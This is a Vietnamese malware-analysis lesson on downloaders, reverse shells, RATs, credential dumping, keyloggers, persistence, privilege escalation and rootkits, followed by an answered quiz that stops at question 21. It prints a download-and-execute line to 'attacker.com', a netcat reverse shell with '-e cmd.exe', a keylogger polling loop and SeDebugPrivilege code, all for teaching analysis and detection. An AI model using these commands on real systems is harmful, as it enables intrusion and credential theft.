




# Bài 5: Malware Behavior

## 1. Downloaders và Launchers

### 1.1 Downloaders

Downloader là loại malware có nhiệm vụ tải về một malware khác từ internet và thực thi nó trên hệ thống nạn nhân. Đây là một trong những loại malware phổ biến nhất trong giai đoạn đầu của chuỗi tấn công (infection chain).

**Windows API thường dùng:**

```c
URLDownloadToFileA(NULL, "http://attacker.com/payload.exe", "C:\\temp\\payload.exe", 0, NULL);
WinExec("C:\\temp\\payload.exe", SW_HIDE);
```

**Staged vs Stageless:**

=== "Stageless"
    Toàn bộ payload được nhúng trực tiếp vào file malware. Khi thực thi, reverse shell hoặc payload kết nối thẳng về máy attacker mà không cần tải thêm gì.

    - **Ưu điểm:** Đơn giản, không cần kết nối C2 để lấy stage 2
    - **Nhược điểm:** File lớn hơn, dễ bị phát hiện bởi AV hơn

=== "Staged"
    Dropper (stage 1) nhỏ gọn, chỉ có nhiệm vụ beacon về C2 Server để tải về và inject stage 2 (payload thực sự) vào bộ nhớ.

    - **Ưu điểm:** File nhỏ, khó phát hiện hơn, payload không lưu trên disk
    - **Nhược điểm:** Cần kết nối mạng để hoạt động, dễ bị chặn ở network layer



---

### 1.2 Launchers (Loaders)

Launcher (hay còn gọi là Loader) là malware chuẩn bị và thực thi một malware khác theo cách bí mật (covert execution), có thể ngay lập tức hoặc vào thời điểm sau. Điểm đặc biệt là loader thường **lưu trữ payload ở những nơi bất ngờ** như section `.rsrc` của PE file.

**Các vector lây nhiễm phổ biến của Loaders:**

- **ISO files** chứa các file khác (ZIP, LNK)
- **ZIP files** chứa ISO, LNK, DLL
- **LNK (shortcut) files** trỏ đến payload
- **HTML files** chứa JavaScript và DLL nhúng bên trong

**Công cụ thường dùng bởi Loaders:**

- Commercial tools: Cobalt Strike, Brute Ratel
- LOLBins (Living-off-the-Land Binaries): `PowerShell`, `regsvr32.exe`, `rundll32.exe`, `curl.exe`, `calc.exe`

!!! note "Lịch sử"
    Trước đây, loaders thường lây qua macro độc hại trong Microsoft Office. Từ khi Microsoft tăng cường bảo mật Office, loaders chuyển sang các vector khác như ISO, LNK, HTML.

---

## 2. Backdoors

Backdoor cung cấp quyền truy cập từ xa vào máy nạn nhân. Đây là **loại malware phổ biến nhất**.

**Đặc điểm:**

- Thường giao tiếp qua HTTP trên **Port 80** để trốn tránh firewall
- Network signatures rất hữu ích cho việc phát hiện
- Các khả năng thông thường: thao tác Registry, liệt kê cửa sổ, tạo thư mục, tìm kiếm file, v.v.

---

### 2.1 Reverse Shell

Reverse shell là kết nối **khởi tạo từ máy nạn nhân** ra ngoài đến máy attacker, cung cấp shell access. Khác với bind shell (attacker kết nối vào), reverse shell vượt qua firewall dễ hơn vì traffic xuất phát từ bên trong mạng nội bộ.



**Netcat Reverse Shell:**

```bash
# Trên máy attacker (listener)
ncat -l -p 80

# Trên máy nạn nhân (gửi shell về attacker)
ncat 192.168.1.100 80 -e cmd.exe
```

- `-l`: listening mode
- `-p`: chỉ định port lắng nghe
- `-e`: chỉ định chương trình thực thi khi kết nối thành công (thường là `cmd.exe` trên Windows)

---

### 2.2 Windows Reverse Shell — Basic vs Multithreaded

=== "Basic"
    1. Tạo một socket kết nối đến máy attacker
    2. Gọi `CreateProcess` với cấu trúc `STARTUPINFO` được chỉnh sửa
    3. Gắn socket vào **stdin, stdout, stderr** của `cmd.exe`
    4. `CreateProcess` chạy `cmd.exe` với cửa sổ ẩn (suppressed window)

=== "Multithreaded"
    Phức tạp hơn, thường dùng để **mã hóa/encode dữ liệu** truyền qua socket.

    **Thành phần:**
    - 1 socket kết nối đến attacker
    - 2 pipes (dùng `CreatePipe`)
    - 2 threads (dùng `CreateThread`)

    **Luồng hoạt động:**
    - `CreateProcess` gắn stdin/stdout của `cmd.exe` vào pipes (không phải thẳng vào socket)
    - **Thread 1:** Đọc từ stdin pipe → encode dữ liệu → ghi vào socket
    - **Thread 2:** Đọc từ socket → decode dữ liệu → ghi vào stdout pipe

    !!! tip "Forensics"
        Để phân tích, reverse engineer các encoding/decoding routine trong hai threads → decode packet capture chứa session đã bị encode.

---

### 2.3 RATs (Remote Administration Tools)

RAT dùng để điều khiển từ xa một hoặc nhiều máy tính. Thường dùng trong **targeted attacks** với mục tiêu cụ thể như đánh cắp thông tin hoặc lateral movement.

**Kiến trúc:**

| Thành phần | Vai trò |
|---|---|
| **Server** | Cài trên máy nạn nhân (implant), beacon về client |
| **Client** | Chạy trên máy attacker, điều khiển toàn bộ |

- Server tự động beacon đến client để thiết lập kết nối
- Giao tiếp thường qua **port 80 và 443**

**Phân biệt RAT vs Botnet:**

| Tiêu chí | RAT | Botnet |
|---|---|---|
| Số lượng nạn nhân | Ít, có chọn lọc | Hàng nghìn/triệu |
| Cách điều khiển | Từng máy một | Tất cả cùng lúc |
| Mục đích | Targeted attack | Mass attack (DDoS, spam) |

---

### 2.4 Botnets

Botnet là tập hợp các máy bị chiếm quyền (gọi là **zombies**), điều khiển bởi một entity duy nhất thông qua **botnet controller** server.

**Mục tiêu:**
- Lây nhiễm càng nhiều host càng tốt
- Dùng để phát tán malware khác, spam, hoặc thực hiện **DDoS**
- Có thể hạ gục một website bằng cách cho toàn bộ zombie tấn công đồng thời

---

## 3. Credential Stealers

### 3.1 Ba phương thức đánh cắp credential

1. **Chờ user đăng nhập** và đánh cắp credential ngay khi nhập
2. **Dump dữ liệu đã lưu**, ví dụ: password hashes
3. **Keylogging** — ghi lại các phím được nhấn

---

### 3.2 Windows Credentials

**Các nguồn credential trên Windows:**

- **SAM (Security Account Manager)** — lưu password hash của local user
- **Cached Domain Credentials** — lưu hash của domain user để đăng nhập offline
- **LSASS Memory** — chứa credential đang active trong session
- **LSA Secrets** — lưu password cho services, scheduled tasks
- **NTDS.dit** — database của Active Directory (trên Domain Controller)

**Công cụ phổ biến:** Mimikatz, Fgdump

**MITRE ATT&CK T1003 — OS Credential Dumping:**

| Sub-technique | Mô tả |
|---|---|
| T1003.001 | LSASS Memory |
| T1003.002 | Security Account Manager |
| T1003.003 | NTDS |
| T1003.004 | LSA Secrets |
| T1003.005 | Cached Domain Credentials |
| T1003.006 | DCSync |
| T1003.007 | Proc Filesystem |
| T1003.008 | /etc/passwd and /etc/shadow |

---

### 3.3 Hash Dumping

Windows lưu password dưới dạng **LM hoặc NTLM hash**.

**Hai cách tấn công từ hash:**

1. **Pass-the-Hash:** Dùng hash trực tiếp để xác thực (không cần crack)
2. **Offline cracking:** Crack hash để tìm ra plaintext password

**Pwdump:**

- Inject `lsaext.dll` vào process `lsass.exe`
- Gọi export function `GetHash` trong DLL đó
- Dùng các undocumented Windows function để trích xuất hash:
  - `samsrv.dll` — truy cập SAM database
  - `advapi32.dll` — truy cập các function chưa được import vào lsass
  - `SamIGetPrivateData` — trích xuất hash
  - `SystemFunction025` và `SystemFunction027` — giải mã hash

```
Tại sao inject vào LSASS?
- LSASS chạy với đặc quyền cao
- Có quyền truy cập nhiều API hữu ích
- DLL inject chạy trong context của LSASS → có toàn bộ đặc quyền của LSASS
```

**Pass-the-Hash Toolkit (whosthere-alt):**

- Cũng inject DLL vào `lsass.exe`
- Dùng API khác: `LsaEnumerateLogonSessions` từ `secur32.dll`
- Load `msv1_0.dll` để truy cập credential

---

### 3.4 Keystroke Logging

**Kernel-Based Keyloggers:**
- Hoạt động như keyboard driver
- Khó phát hiện bằng user-mode applications
- Thường là một phần của rootkit
- Bypass hoàn toàn user-space protections

**User-Space Keyloggers — 2 phương pháp:**

=== "Hooking"
    Dùng `SetWindowsHookEx` để đăng ký callback, OS tự động gọi hàm của malware mỗi khi có phím được nhấn.

    ```c
    SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, hInstance, 0);
    ```

=== "Polling"
    Malware liên tục vòng lặp kiểm tra trạng thái từng phím.

    ```c
    // Vòng lặp chính
    while(true) {
        HWND hwnd = GetForegroundWindow(); // Xác định cửa sổ đang active
        for(int key = 8; key <= 190; key++) {
            if(GetAsyncKeyState(key) & 0x0001) { // Phím này vừa được nhấn?
                // Log phím và cửa sổ hiện tại
            }
        }
        Sleep(10);
    }
    ```



**Nhận biết keylogger qua Strings listing:**

Trong disassembly, tìm các chuỗi như `[Up]`, `[Down]`, `[Left]`, `[Right]`, `[Num Lock]`, `[PageDown]` — đây là các label mà keylogger dùng để ghi lại phím đặc biệt vào log file.

---

## 4. Persistence Mechanisms

Sau khi xâm nhập, malware cần duy trì sự hiện diện qua mỗi lần reboot — gọi là **persistence**.

!!! tip
    Persistence mechanism đủ độc đáo có thể dùng để **fingerprint** (nhận dạng) một dòng malware cụ thể.

---

### 4.1 Registry — Run Key

Key phổ biến nhất:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Malware thêm entry vào đây để tự động chạy khi Windows khởi động.

**Công cụ phát hiện:**
- **Autoruns** (Sysinternals) — liệt kê tất cả chương trình tự động chạy
- **ProcMon** — monitor registry modification trong realtime

---

### 4.2 AppInit_DLLs

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
```

- Chứa danh sách DLL (phân cách bởi dấu cách)
- **Tất cả** DLL trong list này được load vào **mọi process** có load `User32.dll`
- Vì hầu hết GUI application đều load `User32.dll`, malware sẽ được inject vào rất nhiều process

**Kỹ thuật của malware:** Trong `DllMain`, kiểm tra xem đang chạy trong process nào trước khi kích hoạt payload — tránh crash các process không mong muốn.

---

### 4.3 Winlogon Notify

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Winlogon\Notify
```

Malware hook vào các sự kiện của `winlogon.exe`:
- Logon / Logoff
- Startup / Shutdown
- Lock screen

!!! warning
    DLL được đăng ký tại đây có thể **load ngay cả trong Safe Mode** — cực kỳ dai dẳng.

---

### 4.4 Svchost DLLs

`svchost.exe` là generic host process cho các Windows services chạy dưới dạng DLL.

```
# Groups định nghĩa tại:
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost

# Service cụ thể định nghĩa tại:
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\<ServiceName>\Parameters\ServiceDLL
```

**Kỹ thuật malware:**
- Thêm mình vào một group sẵn có (thường là `netsvcs`)
- Hoặc ghi đè một service ít dùng
- Set `ServiceDLL` trỏ đến DLL độc hại

```
Phát hiện:
- Dynamic analysis: Monitor registry bằng ProcMon
- Static analysis: Tìm API calls như CreateServiceA trong disassembly
```

---

### 4.5 Trojanized System Binaries

Malware **patch trực tiếp bytes** vào system binary (thường là DLL).

**Quy trình:**
1. Tìm vùng trống trong binary (thường ở cuối section)
2. Chèn shellcode vào vùng trống đó
3. Sửa **entry point function** để nhảy đến shellcode
4. Sau khi shellcode chạy xong, nhảy trở lại hàm DllEntryPoint gốc để DLL hoạt động bình thường

```
Original:   DllEntryPoint → [code bình thường]
Trojaned:   DllEntryPoint → jmp [shellcode] → [code bình thường]
```

---

### 4.6 DLL Load-Order Hijacking

Windows tìm kiếm DLL theo thứ tự mặc định trên XP:

1. Thư mục chứa application
2. Current directory
3. System directory (`C:\Windows\System32`)
4. 16-bit system directory (`C:\Windows\System`)
5. Windows directory (`C:\Windows`)
6. Các thư mục trong biến môi trường `PATH`

**Khai thác:** Đặt DLL độc hại vào thư mục được tìm kiếm trước, với cùng tên DLL hợp lệ mà application cần load.

**KnownDLLs Registry Key:**

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
```

Chứa danh sách DLL với đường dẫn cố định, **override search order**. Tuy nhiên, không bảo vệ hoàn toàn vì:
- DLL load-order hijacking chỉ áp dụng cho binary **ngoài** `System32`
- Load DLL trong `System32`
- DLL đó không nằm trong `KnownDLLs`

**Ví dụ: explorer.exe:**
- `explorer.exe` nằm ở `C:\Windows` (không phải System32)
- Load `ntshrui.dll` từ System32
- `ntshrui.dll` không có trong KnownDLLs
- → Đặt `ntshrui.dll` độc hại vào `C:\Windows`, nó sẽ được load thay vì bản gốc

!!! warning
    `explorer.exe` có khoảng **50 vulnerable DLLs**. KnownDLLs cũng không hoàn toàn an toàn vì nhiều protected DLL load thêm DLL khác — recursive imports theo default search order.

---

## 5. Privilege Escalation

### 5.1 Windows XP và trước đó

Phần lớn user XP chạy với quyền **Administrator** thường xuyên → không cần escalate để có admin.

**Metasploit** có nhiều exploit privilege escalation sẵn có. **DLL load-order hijacking** cũng có thể dùng để leo thang đặc quyền.

---

### 5.2 SeDebugPrivilege

Một số function như `TerminateProcess`, `CreateRemoteThread` đòi hỏi **System privileges** (cao hơn Administrator).

`SeDebugPrivilege` ban đầu được thiết kế cho mục đích debug, nhưng cho phép local Administrator **leo thang lên System**.

```c
// Bước 1: Lấy access token của process hiện tại
OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);

// Bước 2: Tìm LUID của SeDebugPrivilege
LookupPrivilegeValueA(NULL, "SeDebugPrivilege", &Luid);

// Bước 3: Kích hoạt privilege
AdjustTokenPrivileges(TokenHandle, FALSE, &NewState, ...);
```

---

## 6. User-Mode Rootkits

Rootkit ẩn sự hiện diện của malware bằng cách **sửa đổi chức năng nội bộ của OS** — ẩn file, network connections, processes.

Kernel-mode rootkit mạnh hơn, nhưng phần này tập trung vào **user-mode rootkits**.

---

### 6.1 IAT Hooking

PE file có **IAT (Import Address Table)** chứa địa chỉ của các imported functions. Khi program gọi `TerminateProcess`, nó thực ra lookup địa chỉ trong IAT.

**Kỹ thuật:** Malware thay đổi địa chỉ trong IAT → chỉ đến hàm của malware thay vì hàm gốc.



---

### 6.2 Inline Hooking

Thay vì sửa con trỏ trong IAT, inline hooking **ghi đè trực tiếp code** của API function trong DLL.

**Kỹ thuật phổ biến:**
1. Ghi `JMP <malware_function>` vào vài byte đầu của API function gốc
2. Khi program gọi API, nó nhảy vào hàm của malware trước
3. Malware có thể xử lý, lọc kết quả, rồi gọi tiếp hàm gốc (hoặc không)

| Loại hook | Thay đổi | Phát hiện |
|---|---|---|
| IAT Hooking | Con trỏ trong IAT của process | So sánh IAT với bản gốc |
| Inline Hooking | Code thực tế của API trong DLL | So sánh bytes của DLL với bản trên disk |

---

## 7. Malware Behavior Trends (Elastic, 100,000+ samples)

### 7.1 Tactics theo tần suất

| Tactic | Alert count |
|---|---|
| Defense Evasion | 302,004 |
| Privilege Escalation | 153,015 |
| Execution | 101,456 |
| Persistence | 63,357 |
| Initial Access | 30,580 |
| Credential Access | 13,712 |
| Command and Control | 13,712 |
| Discovery | 11,699 |

---

### 7.2 Defense Evasion — Top techniques

- **Process Injection** (173,550 alerts) — phổ biến nhất
- **Impair Defenses** — vô hiệu hóa Windows Defender, AV
- **Modify Registry**
- **Masquerading** — giả mạo tên process, service
- **Hijack Execution Flow** — DLL sideloading, search order hijacking
- **System Binary Proxy Execution** — rundll32, regsvr32, msiexec, mshta

---

### 7.3 Privilege Escalation — Top techniques

- **Access Token Manipulation** (151,427 alerts) — áp đảo
  - Create Process with Token
  - Token Impersonation/Theft
- **Create or Modify System Process** — Windows Service
- **Bypass UAC**

---

### 7.4 Persistence — Top techniques

- **Scheduled Task** (21,289 alerts) — phổ biến nhất
- **Registry Run Keys / Startup Folder** (14,355 alerts)
- **Windows Service** (660 alerts)
- **Image File Execution Options Injection**
- **Shortcut Modification**

---

### 7.5 Credential Access — Top techniques

- **Windows Credential Manager** (14,329 alerts)
- **Credentials in Files**
- **Credentials from Web Browsers**
- **LSASS Memory**
- **NTDS** (Active Directory)

---

## Câu hỏi trắc nghiệm

**Câu 1.** Downloader sử dụng cặp Windows API nào để tải và thực thi malware?

- A. `CreateProcess` và `WriteFile`
- B. `URLDownloadToFileA` và `WinExec`
- C. `HttpSendRequest` và `ShellExecute`
- D. `InternetOpenUrl` và `CreateThread`

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `URLDownloadToFileA` tải file từ URL về disk, sau đó `WinExec` thực thi file đó. Đây là cặp API đặc trưng của downloader.

---

**Câu 2.** Điểm khác biệt chính giữa staged và stageless payload là gì?

- A. Staged chạy nhanh hơn stageless
- B. Stageless nhỏ hơn staged
- C. Staged tải payload từ C2 server trong runtime; stageless nhúng toàn bộ payload ngay từ đầu
- D. Staged không cần kết nối mạng

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Staged payload gồm dropper nhỏ beacon về C2 để lấy stage 2, trong khi stageless nhúng toàn bộ payload vào file. Staged nhỏ hơn và linh hoạt hơn nhưng cần kết nối mạng.

---

**Câu 3.** Loader thường lưu trữ malware ở đâu trong PE file?

- A. Section `.text`
- B. Section `.data`
- C. Section `.rsrc`
- D. Section `.idata`

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Section `.rsrc` (resource section) thường chứa icon, string, dialog — ít bị kiểm tra hơn, nên là nơi loader ưa lưu payload ẩn.

---

**Câu 4.** Tại sao backdoor thường dùng Port 80 để giao tiếp?

- A. Port 80 có băng thông cao nhất
- B. Port 80 là HTTP, thường được firewall cho phép qua, giúp traffic của malware lẫn vào traffic web bình thường
- C. Port 80 nhanh hơn các port khác
- D. Vì đây là port duy nhất không cần xác thực

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Firewall doanh nghiệp thường cho phép outbound HTTP (port 80) và HTTPS (port 443) để user duyệt web. Backdoor lợi dụng điều này để C2 traffic không bị chặn.

---

**Câu 5.** Reverse shell khác bind shell ở điểm nào?

- A. Reverse shell chạy trên Linux; bind shell chạy trên Windows
- B. Trong reverse shell, kết nối khởi tạo từ máy nạn nhân ra ngoài; trong bind shell, attacker kết nối vào port đang listen trên máy nạn nhân
- C. Reverse shell mã hóa dữ liệu; bind shell không
- D. Reverse shell chỉ dùng được với Netcat

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Reverse shell vượt qua firewall dễ hơn vì traffic là outbound từ nạn nhân. Bind shell yêu cầu attacker kết nối vào — thường bị chặn bởi firewall inbound.

---

**Câu 6.** Trong Netcat reverse shell, option `-e` dùng để làm gì?

- A. Mã hóa kết nối
- B. Chỉ định chương trình thực thi khi kết nối thành công, gắn stdin/stdout của nó vào socket
- C. Enable verbose logging
- D. Chỉ định encoding của dữ liệu

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `-e cmd.exe` nghĩa là khi kết nối được thiết lập, Netcat sẽ chạy `cmd.exe` và gắn input/output của nó vào socket, cho phép attacker gõ lệnh từ xa.

---

**Câu 7.** Multithreaded reverse shell dùng hai thread để làm gì?

- A. Thread 1 tấn công, Thread 2 phòng thủ
- B. Thread 1: đọc stdin pipe → ghi socket; Thread 2: đọc socket → ghi stdout pipe
- C. Thread 1 handle IPv4, Thread 2 handle IPv6
- D. Thread 1 encode, Thread 2 mã hóa

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Hai thread xử lý hai chiều của kênh giao tiếp, thường kèm theo encode/decode dữ liệu, giúp tránh phát hiện bằng network signatures.

---

**Câu 8.** API nào được dùng trong multithreaded reverse shell để tạo pipe?

- A. `CreateFile`
- B. `OpenPipe`
- C. `CreatePipe`
- D. `PipeCreate`

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    `CreatePipe` tạo anonymous pipe với hai đầu đọc/ghi, dùng để kết nối stdin/stdout của `cmd.exe` với socket trong multithreaded reverse shell.

---

**Câu 9.** RAT khác botnet ở điểm nào quan trọng nhất?

- A. RAT dùng TCP; botnet dùng UDP
- B. RAT kiểm soát từng nạn nhân có chủ đích; botnet điều khiển hàng loạt host cùng lúc
- C. RAT chỉ chạy trên Windows; botnet đa nền tảng
- D. RAT không cần C2 server

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    RAT dùng cho targeted attack — attacker quan tâm đến từng nạn nhân cụ thể. Botnet là mass attack — điều khiển toàn bộ zombie đồng thời để DDoS, spam, v.v.

---

**Câu 10.** Trong kiến trúc RAT, "server" là gì?

- A. Máy chủ của attacker chạy phần mềm điều khiển
- B. Implant malware cài trên máy nạn nhân, beacon về attacker
- C. Firewall của nạn nhân
- D. C2 server trung gian

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Trong RAT, naming ngược với thông thường: "server" là component trên máy nạn nhân (vì nó "serve" cho attacker), "client" là phần attacker dùng để điều khiển.

---

**Câu 11.** Zombie trong botnet là gì?

- A. Tên gọi cho attacker
- B. Máy tính bị chiếm quyền kiểm soát và là thành viên của botnet
- C. C2 server bị hỏng
- D. Malware đã bị xóa nhưng để lại dấu vết

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Zombie (hay bot) là máy tính bình thường của người dùng đã bị nhiễm malware và nằm trong sự kiểm soát của botnet controller.

---

**Câu 12.** Ba phương thức đánh cắp credential phổ biến là gì?

- A. Phishing, brute force, social engineering
- B. Chờ user login để steal, dump stored hashes, keylogging
- C. SQL injection, XSS, CSRF
- D. Man-in-the-middle, replay attack, credential stuffing

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Đây là ba phương thức được nêu trong bài: (1) chờ user đăng nhập và đánh cắp trực tiếp, (2) dump hash đã lưu trữ, (3) keylogging để ghi lại thao tác nhập.

---

**Câu 13.** Pwdump inject DLL vào process nào để lấy hash?

- A. `winlogon.exe`
- B. `explorer.exe`
- C. `lsass.exe`
- D. `csrss.exe`

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    LSASS (Local Security Authority Subsystem Service) quản lý authentication và lưu credential trong bộ nhớ. Pwdump inject `lsaext.dll` vào `lsass.exe` để truy cập SAM database.

---

**Câu 14.** Tại sao LSASS là mục tiêu hấp dẫn để inject DLL?

- A. Vì LSASS dễ bị terminate
- B. LSASS chạy với đặc quyền cao và có quyền truy cập nhiều API hữu ích
- C. LSASS không bị giám sát bởi AV
- D. LSASS là process duy nhất không cần UAC

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    DLL inject vào LSASS sẽ chạy với toàn bộ đặc quyền của LSASS, bao gồm quyền truy cập SAM, LSA secrets, và các API liên quan đến authentication.

---

**Câu 15.** `SamIGetPrivateData` và `SystemFunction025/027` là loại function gì?

- A. Documented Microsoft API
- B. Undocumented Windows internal functions
- C. Third-party library functions
- D. Linux system calls

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Đây là các undocumented functions của Windows — không có trong tài liệu chính thức của Microsoft. Pwdump dùng chúng để trích xuất và giải mã password hash từ SAM.

---

**Câu 16.** Pass-the-Hash attack là gì?

- A. Crack hash để ra plaintext password
- B. Dùng hash trực tiếp để xác thực mà không cần biết plaintext password
- C. Truyền hash qua network để đánh cắp
- D. Hash lại password nhiều lần

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Windows NTLM authentication cho phép xác thực bằng hash thay vì plaintext. Attacker có thể dùng hash lấy được để authenticate vào các service mà không cần crack.

---

**Câu 17.** Kernel-based keylogger khác user-space keylogger ở điểm gì?

- A. Kernel keylogger chỉ hoạt động trên Windows XP
- B. Kernel keylogger hoạt động ở tầng driver, khó phát hiện hơn bằng user-mode tools, thường là phần của rootkit
- C. Kernel keylogger lưu log vào kernel memory còn user-space lưu vào disk
- D. Không có sự khác biệt đáng kể

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Kernel-based keylogger hoạt động như keyboard driver, bypass hoàn toàn user-space protections. Hầu hết AV/security tool chạy ở user-mode không thể phát hiện.

---

**Câu 18.** `SetWindowsHookEx` với tham số `WH_KEYBOARD_LL` dùng để làm gì?

- A. Disable keyboard
- B. Đăng ký low-level keyboard hook — OS sẽ gọi callback của malware mỗi khi có keystroke
- C. Log keyboard layout
- D. Encrypt keyboard input

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `WH_KEYBOARD_LL` là low-level keyboard hook. `SetWindowsHookEx` đăng ký callback function, và Windows sẽ tự động gọi hàm đó cho mỗi keystroke — không cần polling.

---

**Câu 19.** `GetAsyncKeyState` dùng để làm gì trong polling keylogger?

- A. Lấy tốc độ phím bấm
- B. Kiểm tra trạng thái (pressed/unpressed) của một phím cụ thể tại thời điểm gọi hàm
- C. Lấy danh sách tất cả phím đang được giữ
- D. Reset trạng thái bàn phím

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `GetAsyncKeyState(vKey)` trả về trạng thái của phím `vKey`. Bit thấp nhất = 1 nếu phím vừa được nhấn kể từ lần gọi cuối. Keylogger polling lặp qua tất cả virtual key codes.

---

**Câu 20.** Tại sao chuỗi như `[Up]`, `[Num Lock]` trong strings listing của một binary là dấu hiệu của keylogger?

- A. Đây là tên các API function của keylogger
- B. Keylogger dùng các chuỗi này làm label khi ghi phím đặc biệt vào log file
- C. Đây là tên registry key của keylogger
- D. Các chuỗi này là mã lỗi của keylogger

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Khi ghi keystroke ra file, keylogger cần hiển thị phím đặc biệt (không có ký tự ASCII) bằng chuỗi mô tả như `[Enter]`, `[Backspace]`, `[Up]`, v.v. Tìm thấy các chuỗi này trong strings listing là dấu hiệu rõ ràng.

---

**Câu 21.** Registry key nào là persistence mechanism phổ biến nhất?

- A. `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs`
- B. `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
